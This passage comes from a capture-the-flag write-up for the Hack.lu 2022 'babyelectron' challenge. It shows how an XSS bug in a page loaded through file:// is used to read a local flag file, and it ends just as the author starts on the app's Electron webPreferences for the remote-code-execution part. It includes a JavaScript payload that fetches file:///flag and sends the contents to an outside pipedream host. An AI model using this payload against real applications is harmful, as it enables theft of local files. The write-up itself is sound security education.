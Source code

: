 Send the `reportId` to the admin then.

By this way although we have found a successful xss bug, we still need to find a away to read the flag which is in root directory `/flag`

------------------


By pressing `CTRL+Shift+I` in the electron app , developer tools window will popup

Execute this on the console:
```js
>document.location.href
'file:///tmp/CTFs/2022/Hack.lu/babyelectron_db68aab4272c385892ba665c4c0e6432/public/app/src/views/portfolio.html#'
```

The local files are directly loaded here, so the location of page where our report will be shown will be this:

```
'file:///tmp/CTFs/2022/Hack.lu/babyelectron_db68aab4272c385892ba665c4c0e6432/public/app/src/views/support.html#'
``` 


Here's the sweet alert popup:
![electron_O5t35dNFpM](https://user-images.githubusercontent.com/31372554/198938310-2f106dd3-8dab-42aa-9e48-03a6cace8287.png)


As we have xss in the file uri, we can make request to other local files and read the content. A simple js payload such as this will allows us to read the flag:

```js
fetch('file:///flag')
   .then(response=>response.text())
   .then(json=>fetch("https://en2celr7rewbul.m.pipedream.net/x?flag="+json))
```

This code will read the content of the flag file and sent it to our server.


![image](https://user-images.githubusercontent.com/31372554/198938921-d6a8ceef-a3ca-42b1-8b8f-0d66889ae9ee.png)


`flag{well..well..well..good_you_learned_about_file://_origin_:)_}`

------------------------------------------------------------------

# v2


Now we need rce to solve the second part of this challenge, going through electron source code

Starting with the `webPreferences` configuration:

```js
function createWindow (session) {
  // Create the browser window.
  const mainWindow = new BrowserWindow({
    title: "Real Estate Luxembourg",
    width: 860,
    height: 600,
    minWidth: 860,
    minHeight: 600,
    resizable: true,
    icon: '/images/fav.ico',
    webPreferences: {
      preload: path.join(app.getAppPath(), "./src/preload.js"), // eng-disable PRELOAD_JS_CHECK
      // SECURITY: use a custom session without a cache
      // https://github.com/1password/electron-secure-defaults/#disable-session-cache
      session,
```